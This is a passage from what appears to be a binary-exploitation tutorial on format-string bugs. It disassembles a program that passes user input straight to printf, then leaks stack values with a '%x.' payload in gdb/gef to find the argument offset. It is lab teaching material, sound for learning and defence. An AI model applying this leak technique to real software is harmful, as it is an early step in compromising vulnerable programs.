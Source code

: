 ```bash
   0x080491fc <+70>:	sub    esp,0xc
   0x080491ff <+73>:	lea    eax,[ebp-0xd0]
   0x08049205 <+79>:	push   eax
   0x08049206 <+80>:	call   0x8049070 <printf@plt>
   0x0804920b <+85>:	add    esp,0x10
   0x0804920e <+88>:	mov    eax,0x0
   0x08049213 <+93>:	lea    esp,[ebp-0x8]
   0x08049216 <+96>:	pop    ecx
   0x08049217 <+97>:	pop    ebx
   0x08049218 <+98>:	pop    ebp
   0x08049219 <+99>:	lea    esp,[ecx-0x4]
   0x0804921c <+102>:	ret    
End of assembler dump.
gef➤ b *main + 102
```

Secondly, determine the direct parameter number to your input:
```bash
gef➤  r $(python -c 'print "AAAA" + "%x." * 15')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "AAAA" + "%x." * 15')

Breakpoint 1, 0x0804921c in main ()

gef➤  c
Continuing.
AAAAffffd269.c8.80491d4.0.0.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.[Inferior 1 (process 11316) exited normally]
```
The direct parameter number is 6.

Thirdly, when the progam will stop at the breakpoint, view the stack.
```bash
gef➤  r $(python -c 'print "AAAA" + "%x." * 15')
Starting program: /home/shogun/repos/basics-of-pwn/content/format-string/format-string $(python -c 'print "AAAA" + "%x." * 15')

Breakpoint 1, 0x0804921c in main ()

gef➤  x/50wx $esp
0xffffcfbc:	0xf7ddbee5	0x00000002	0xffffd054	0xffffd060
0xffffcfcc:	0xffffcfe4	0xf7fa8000	0x00000000	0xffffd038
0xffffcfdc:	0x00000000	0xf7ffd000	0x00000000	0xf7fa8000
0xffffcfec:	0xf7fa8000	0x00000000	0xa458a854	0xe0ba6e44
0xffffcffc:	0x00000000	0x00000000	0x00000000	0x00000002
0xffffd00c:	0x080490a0	0x00000000	0xf7fe7b24	0xf7fe22f0
0xffffd01c:	0x0804c000	0x00000002	0x080490a0	0x00000000
0xffffd02c:	0x080490d6	0x080491b6	0x00000002	0xffffd054
0xffffd03c:	0x08049220	0x08049290	0xf7fe22f0	0xffffd04c
0xffffd04c:	0x0000001c	0x00000002	0xffffd224	0xffffd269
0xffffd05c:	0x00000000	0xffffd29b	0xffffd2ab	0xffffd2fb
0xffffd06c:	0xffffd30d	0xffffd320	0xffffd334	0xffffd368
0xffffd07c:	0xffffd3a2	0xffffd3b8
gef➤  ni
0xf7ddbee5 in __libc_start_main () from /lib/i386-linux-gnu/libc.so.6

```
